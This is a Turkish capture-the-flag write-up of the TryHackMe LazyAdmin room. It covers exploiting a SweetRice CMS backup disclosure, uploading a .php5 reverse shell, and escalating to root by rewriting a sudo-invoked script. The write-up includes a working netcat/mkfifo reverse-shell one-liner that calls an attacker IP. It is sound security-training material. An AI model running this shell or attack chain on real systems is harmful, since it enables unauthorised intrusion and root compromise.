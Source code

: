 ```yaml
---
title: "LayzAdmin WriteUp"
header:
 
categories:
   - CTF
tag:
   -TryHackMe
---
```


## Nmap

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/nmap.png){: .align-center}

Dirb ile hidden directory tespit etmeye çalıştığımda content ve content/as isimli iki adet dizini tespit ettim.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/dirb.png){: .align-center}

hedefIP/content sayfasını ziyaret ettiğimde management system olarak SweetRice kullanıldığı görüntülenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sweet.png){: .align-center}

SweetRice hakkında zafiyet araştırması yapıldığında ise birden fazla çıktı görüntülenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sweetRice.png){: .align-center}

SweetRice 1.5.1 - Backup Disclosure zafiyeti “http://localhost/inc/mysql_backup" end pointinde yedeklerin disclosure olduğunu gördüm.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/backup.png){: .align-center}

Backup dosyası içerisinde bir kullanıcı adı ve hashlenmiş haldeki parolayı buldum. Hash’i CrackStation kullanarak kırdığımda parolaya ulaştım.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/crackstation.png){: .align-center}

/content/as sayfası SweetRice'ın login sayfasıdır. Elde edilen kimlik bilgileri ile giriş yapıldıktan sonra potansiyel güvenlik zafiyetleri araştırılmaktadır. Tema sekmesinde reverse shell include edilerek hedef sistemde erişim hedeflenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/contentas.png){: .align-center}

Fakat yüklenilen dosyaya erişilememektedir. Bu yüzden farklı bir giriş noktası olan MediaCenter sekmesi ziyaret edilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/mediacenter.png){: .align-center}

.php uzantılı shell yüklendiğinde sistem kabul etmemektedir fakat .php5 olarak uzantısı değiştirip yüklendiğinde sistem kabul etmektedir. Saldırı makinesinde ilgili port dinlenerek exploit tetiklenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/netcat.png){: .align-center}

User.txt

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/userflag.png){: .align-center}

Yetki yükseltmek için "sudo -l" yapıldığında perl ve backup.pl dosyalarının super user yetkileri ile çalışabildiği görüntülenmektedir. Ek olarak SUID bitleri incelendiğinde herhangi bir şey tespit edilememektedir.

backup.pl dosyası /etc/copy.sh dosyasını yürütmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/backupl.png){: .align-center}

copy.sh dosyası incelendiğinde ise dosya üzerinde değişiklik yapabilme (yazma) yetkisine sahip olunduğu gözlemlenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/copysh.png){: .align-center}

copy.sh dosyasının içeriğini “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.63.80 1235 >/tmp/f”  ile değiştirilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/echo.png){: .align-center}

"sudo -l" çıktısında görüntülenen backup.pl dosyası super user yetkileriyle çalışmaktadır ve içeriği değiştirilen, root yetkilerine erişmeye yardımcı dosyayı çalıştırmaktadır. İlgili port dinlenerek backup.pl dosyası çalıştırılmaktadır.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sudo.png){: .align-center}

Sonuç olarak yetki yükseltme gerçekleşmektedir ve root.txt dosyasının içeriği elde edilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/rootflag.png){: .align-center}